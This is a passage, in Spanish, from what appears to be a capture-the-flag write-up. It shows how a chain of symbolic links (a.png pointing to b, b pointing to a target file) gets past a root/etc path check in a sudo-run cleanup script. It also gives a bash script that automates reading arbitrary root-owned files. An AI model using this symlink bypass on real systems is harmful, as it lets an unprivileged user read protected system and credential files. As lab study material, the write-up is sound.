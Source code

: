 Luego creamos un link simbólico al archivo:

```c
❯ ln -sf test_passwd b
```

y para `b` también:

```c
❯ ln -sf b a.png
```

Por lo que si hacemos cat a `a.png` podremos leer el archivo `test_passwd`

![20250905173248.png](20250905173248.png)

Esto nos permitirá bypasear la validación del directorio `root` y `etc`, porque al ejecutar un `/usr/bin/readlink` nos devolverá `b`

![20250905173440.png](20250905173440.png)

Para automatizar nos crearemos un archivo en la que aplicaremos todo lo anterior:

```c
#!/usr/bin/bash
file_read="$1"

b="/home/bob/b"
a="/home/bob/a.png"

ln -sf $file_read $b
ln -sf $b $a

echo "$(CHECK_CONTENT=true sudo bash /opt/ghost/clean_symlink.sh /home/bob/a.png)"
```

Ahora, dando permisos de ejecución `chmod +x read_file.sh` podemos leer archivos con permisos `root`
